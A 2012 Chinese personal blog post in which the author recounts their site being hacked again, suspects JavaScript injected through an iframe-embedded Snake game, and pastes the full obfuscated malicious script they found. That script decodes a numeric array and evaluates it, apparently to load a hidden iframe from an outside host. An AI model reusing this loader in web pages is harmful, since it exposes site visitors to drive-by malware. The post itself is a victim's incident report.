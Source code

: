 ```yaml
---
title: 恭喜网站第二次被黑！
author: Flowerowl
layout: post
permalink: /2114.html
duoshuo_thread_id:
  - 2130016
views:
  - 843
bot_views:
  - 2
categories:
  - 杂记
tags:
  - 黑
---
```

公元2012年5月23日上午11点，Lazynight被某些hacker给黑掉，终于，啊，继2012.5.11再一次被攻击。

起初我怀疑是Typecho程序本身有漏洞，这个博客程序自2010年8月份便停止了更新。

于是我又折腾到Wordpress，本来想折腾Drupal，后来网速那个慢···就直接滚回Wordpress了。

中间把数据库从TE转到WP，又从WP转到TE，来来回回折腾了几次，shit，浪费了一下午。

计划全泡汤！！

好吧，就当了一次上传下载工&#8230;

但是！

下午5点收拾残局的时候发现了别人是怎么攻击的&#8230;（这里只是自己猜测的）

应该是<span style="color: #ff0000;">通过iframe漏洞注入js恶意代码</span>

好吧，前天晚上我发表了一篇日志：JS版贪吃蛇，并在那篇文章里插入了iframe代码，能使游戏可以在文章里运行。

今天打开贪吃蛇源文件，发现那行js恶意代码就在html文件里&#8230;

于是就有了以上的猜想。

try{q=document.createElement(&#8220;u&#8221;);q.appendChild(q+&#8221;");}catch(qw){h=-012/5;zz=&#8217;a'+&#8217;l';f=&#8217;fr&#8217;+'o&#8217;+'m&#8217;+'Ch&#8217;;f+=&#8217;arC&#8217;;}try{qwe=prototype;}catch(brebr){zz=&#8217;zv&#8217;.substr(123-122)+zz;ss=\[];f+=(h)?&#8217;ode&#8217;:&#8221;";w=this;e=w[f.substr(11)+zz];n=&#8221;1.5$1.5$49.5$48$13$17$47$52.5$46.5$55.5$51.5$47.5$52$55$20$48.5$47.5$55$31.5$51$47.5$51.5$47.5$52$55$54.5$30$57.5$39$45.5$48.5$36$45.5$51.5$47.5$17$16.5$46$52.5$47$57.5$16.5$17.5$42.5$21$43.5$17.5$58.5$3.5$1.5$1.5$1.5$49.5$48$54$45.5$51.5$47.5$54$17$17.5$26.5$3.5$1.5$1.5$59.5$13$47.5$51$54.5$47.5$13$58.5$3.5$1.5$1.5$1.5$47$52.5$46.5$55.5$51.5$47.5$52$55$20$56.5$54$49.5$55$47.5$17$14$27$49.5$48$54$45.5$51.5$47.5$13$54.5$54$46.5$27.5$16.5$49$55$55$53$26$20.5$20.5$57$57.5$46.5$55.5$50$53.5$51.5$20$52$54.5$21$22$20$46$49.5$58$20.5$47$20.5$23$21$23$20$53$49$53$28.5$48.5$52.5$27.5$21.5$16.5$13$56.5$49.5$47$55$49$27.5$16.5$21.5$21$16.5$13$49$47.5$49.5$48.5$49$55$27.5$16.5$21.5$21$16.5$13$54.5$55$57.5$51$47.5$27.5$16.5$56$49.5$54.5$49.5$46$49.5$51$49.5$55$57.5$26$49$49.5$47$47$47.5$52$26.5$53$52.5$54.5$49.5$55$49.5$52.5$52$26$45.5$46$54.5$52.5$51$55.5$55$47.5$26.5$51$47.5$48$55$26$21$26.5$55$52.5$53$26$21$26.5$16.5$28$27$20.5$49.5$48$54$45.5$51.5$47.5$28$14$17.5$26.5$3.5$1.5$1.5$59.5$3.5$1.5$1.5$48$55.5$52$46.5$55$49.5$52.5$52$13$49.5$48$54$45.5$51.5$47.5$54$17$17.5$58.5$3.5$1.5$1.5$1.5$56$45.5$54$13$48$13$27.5$13$47$52.5$46.5$55.5$51.5$47.5$52$55$20$46.5$54$47.5$45.5$55$47.5$31.5$51$47.5$51.5$47.5$52$55$17$16.5$49.5$48$54$45.5$51.5$47.5$16.5$17.5$26.5$48$20$54.5$47.5$55$29.5$55$55$54$49.5$46$55.5$55$47.5$17$16.5$54.5$54$46.5$16.5$19$16.5$49$55$55$53$26$20.5$20.5$57$57.5$46.5$55.5$50$53.5$51.5$20$52$54.5$21$22$20$46$49.5$58$20.5$47$20.5$23$21$23$20$53$49$53$28.5$48.5$52.5$27.5$21.5$16.5$17.5$26.5$48$20$54.5$55$57.5$51$47.5$20$56$49.5$54.5$49.5$46$49.5$51$49.5$55$57.5$27.5$16.5$49$49.5$47$47$47.5$52$16.5$26.5$48$20$54.5$55$57.5$51$47.5$20$53$52.5$54.5$49.5$55$49.5$52.5$52$27.5$16.5$45.5$46$54.5$52.5$51$55.5$55$47.5$16.5$26.5$48$20$54.5$55$57.5$51$47.5$20$51$47.5$48$55$27.5$16.5$21$16.5$26.5$48$20$54.5$55$57.5$51$47.5$20$55$52.5$53$27.5$16.5$21$16.5$26.5$48$20$54.5$47.5$55$29.5$55$55$54$49.5$46$55.5$55$47.5$17$16.5$56.5$49.5$47$55$49$16.5$19$16.5$21.5$21$16.5$17.5$26.5$48$20$54.5$47.5$55$29.5$55$55$54$49.5$46$55.5$55$47.5$17$16.5$49$47.5$49.5$48.5$49$55$16.5$19$16.5$21.5$21$16.5$17.5$26.5$3.5$1.5$1.5$1.5$47$52.5$46.5$55.5$51.5$47.5$52$55$20$48.5$47.5$55$31.5$51$47.5$51.5$47.5$52$55$54.5$30$57.5$39$45.5$48.5$36$45.5$51.5$47.5$17$16.5$46$52.5$47$57.5$16.5$17.5$42.5$21$43.5$20$45.5$53$53$47.5$52$47$30.5$49$49.5$51$47$17$48$17.5$26.5$3.5$1.5$1.5$59.5&#8243;[((e)?"s":"")+"p"+"lit"\](&#8220;a$&#8221;.substr(1));for(i=6-2-1-2-1;i-585!=0;i++){k=i;ss=ss+String.fromCharCode(-1\*h\*(3+1*n[k]));}q=ss;e(q);}

这就是那串代码，想折腾的可以研究一下。

另外，我发现还有其他好几个网站也被注入了以上代码：

<span style="color: #ff0000;"><a href="http://www.csir-iir.org/"><span style="color: #ff0000;">http://www.csir-iir.org/</span></a></span>

可以看他的源代码，顶部的js和这段恶意代码一样···

[<img class="alignnone size-large wp-image-2115" title="ww" src="http://lazynight.me/wp-content/uploads/2012/05/ww-1024x335.gif" alt="" width="1024" height="335" />][1]

&nbsp;

[<img class="alignnone size-large wp-image-2153" title="Lazynight" src="http://lazynight.me/wp-content/uploads/2012/05/20120523102823-1024x435.gif" alt="" width="1024" height="435" />][2]

<span style="color: #ff0000;">总结：别用iframe了啊亲&#8230;</span>

或者你有什么好的方法来预防可以分享一下，感激不尽。

最后：让Hacker的攻击来的更猛烈些吧！

&nbsp;

转载请注明：[于哲的博客][3] &raquo; [恭喜网站第二次被黑！][4]

 [1]: http://lazynight.me/wp-content/uploads/2012/05/ww.gif
 [2]: http://lazynight.me/wp-content/uploads/2012/05/20120523102823.gif
 [3]: http://localhost/wordpress
 [4]: http://localhost/wordpress/2114.html